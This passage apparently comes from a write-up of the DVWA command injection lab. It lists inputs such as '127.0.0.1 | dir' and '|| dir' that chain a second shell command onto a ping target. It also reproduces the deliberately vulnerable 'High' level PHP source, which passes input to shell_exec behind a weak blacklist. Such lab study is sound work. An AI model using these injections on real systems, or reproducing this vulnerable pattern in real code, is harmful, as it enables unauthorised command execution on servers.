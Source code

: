 ```
127.0.0.1 | dir
127.0.0.1 & dir
bbbbbbbbb || dir
```

![image-20220510102531466.png](./assets/1652254456408-a10d130f-f9b1-45f7-85f5-f461c72d1860.png)

![image-20220510102548433.png](./assets/1652254460659-289efd9f-9fc3-462a-9717-97ce8d5f6a00.png)

![image-20220510102610593.png](./assets/1652254465063-d26c2c2b-7609-4788-9330-1fb81c53af41.png)


# 3、High

**查看源码**

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "
<pre>{$cmd}</pre>";
}

?>
```
